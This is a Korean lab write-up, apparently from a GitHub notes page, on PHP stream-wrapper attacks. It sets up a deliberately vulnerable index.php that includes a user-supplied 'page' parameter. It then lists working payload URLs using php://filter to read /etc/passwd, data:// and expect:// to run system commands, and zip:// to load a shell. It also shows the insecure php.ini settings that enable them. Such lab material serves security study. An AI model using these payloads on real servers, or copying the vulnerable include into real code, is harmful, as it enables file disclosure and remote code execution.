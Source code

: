 # PHP wrapper

| wrapper   | description   |
| :---      | :---:         |
| php://    | 다양항 I/O 스트림 래퍼 |
| zlib://   | 압축 스트림 래퍼 |
| expect:// | PTY를 통해 프로세스의 stdio, stdout, stderr에 대한 액세스 제공 |

https://www.php.net/manual/en/wrappers.expect.php
https://www.php.net/manual/en/wrappers.php

# **INDEX**

**1. [php://](#php:)**

# **환경 구성**

실행 환경

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| php           | 7.4                       |
| apache2       | 2.4.41-4ubuntu3.10        |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```

# **php:**

http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
```
```ini
allow_url_include = On
```

http://192.168.0.58/index.php?page=data://text/plain,<?php system('id');?>
http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==


```sh
root@ubuntu:~# apt -y install php-dev php-pear tcl tcl-tclreadline tcl-dev tcl-expect-dev expect expect-dev tk tk-dev
root@ubuntu:~# pecl install expect
```

```sh
root@ubuntu:~# vi /etc/php/7.4/apache2/php.ini
root@ubuntu:~# vi /etc/php/7.4/cli/php.ini
```
```ini
extension=expect.so
```

http://192.168.0.58/index.php?page=expect://id

```sh
root@ubuntu:~# apt -y install php-zip
```

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 가지고 있어야함

http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php
